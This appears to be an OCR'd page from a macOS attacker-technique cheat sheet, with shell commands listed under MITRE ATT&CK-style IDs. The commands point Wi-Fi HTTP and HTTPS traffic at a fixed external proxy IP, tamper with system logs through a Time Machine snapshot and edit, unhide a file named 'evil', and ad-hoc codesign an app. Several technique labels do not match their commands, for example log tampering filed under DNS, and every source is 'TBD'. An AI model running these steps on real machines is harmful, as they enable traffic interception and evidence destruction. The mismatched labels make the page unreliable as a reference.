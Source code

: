 **Source: TBD**

| Description | Command |
|-------------|---------|
| Set the https web proxy for an interface | `networksetup -setsecurewebproxy "Wi-Fi" 46.226.108.171` |
| Set the http web proxy for an interface | `networksetup -setwebproxy "Wi-Fi" 46.226.108.171` |
| Set auto proxy URL for an interface | `networksetup -setautoproxyurl "Wi-Fi" $autoProxyURL` |
| Enable auto proxy state | `networksetup -setautoproxystate "Wi-Fi" on` |

## T1071.004 - Application Layer Protocol: DNS

**Source: TBD**

| Description | Command |
|-------------|---------|
| Tamper with system logs | `mkdir /tmp/snapshot\ntmutil localsnapshot\ntmutil listlocalsnapshots /\nmount_apfs -o noowners -s com.apple.TimeMachine.2023-05-01-090000.local /System/Volumes/Data /tmp/snapshot\nopen /tmp/snapshot\nsudo vim /var/log/system.log\ntmutil restore com.apple.TimeMachine.2023-05-01-090000.local` |

## T1036.004 - Masquerading: Masquerade Task or Service

**Source: TBD**

| Description | Command |
|-------------|---------|
| Force an update of the Launch Services database | `/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/LaunchServices.framework/Versions/A/Support/lsregister -f` |
| Get a list of apps and their bindings | `/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/LaunchServices.framework/Versions/A/Support/lsregister -dump | grep -E "path:|bindings:|name: | more"` |

## T1140.007 - Deobfuscate/Decode Files or Information: Dynamic Analysis

**Source: TBD**

| Description | Command |
|-------------|---------|
| Remove hidden flag | `chflags nohidden ~/evil` |

## T1219.001 - Remote Access Software: Remote Desktop Software

**Source: TBD**

| Description | Command |
|-------------|---------|
| Ad-hod codesigning an app bundle | `codesign --force --deep -s - MyApp.app` |

